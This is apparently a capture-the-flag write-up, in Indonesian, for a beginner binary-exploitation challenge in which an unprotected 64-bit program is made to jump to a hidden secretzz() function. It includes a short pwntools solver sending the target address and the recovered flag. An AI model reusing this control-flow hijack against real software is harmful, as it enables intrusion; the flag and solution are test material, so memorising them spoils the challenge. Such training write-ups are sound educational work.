 # Rill or Fekk
>Real or fake? it depends on your choice! Lets see how u can trigger a function without actually calling it.


1. Diberikan sebuah file binary dengan arsitektur 64 bit - not stripped.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/3b543e2d-0021-4eec-9c90-d38dd7458159)

2. Langsung saja kita cek proteksi yang di apply pada binary file.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/40a8c7cc-8610-4e3e-92b8-59791202131f)


3. Surprisingly tidak diberikan proteksi apapun pada binary, langsung saja kita decompile file binary untuk mengidentifikasi kerentanan. Disini saya menggunakan decompiler bernama Ghidra.

> Fungsi main()

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/69284393-92c6-4a89-b071-564dca86cac8)


4. Pada fungsi `main()` nampaknya terdapat hardcoded values yang dapat kita gunakan untuk membuka fungsi `secretzz()`, yang dimana isi dari fungsi tersebut sepertinya akan menampilkan flag di remote server.

> Fungsi secretzz()

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/a5415304-de54-431d-888a-a1041660a787)


5. Mengetahui hal ini, langsung saja kita jalankan solver berikut:

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './Chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()

padding = 64

p = flat([
    b'4199254' # decimal representation of 0x401356
])

sh.sendlineafter(b':', p)
sh.interactive()
```

> RESULT

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/8531464a-a644-4642-8491-953682a740fc)


```console
ForestyHC{eyyoo_u_ar3nt_supp0ssd_t0_b3_h3re_subm1t_th1zz_and_g0_aw4yy_a4xc0d}
```
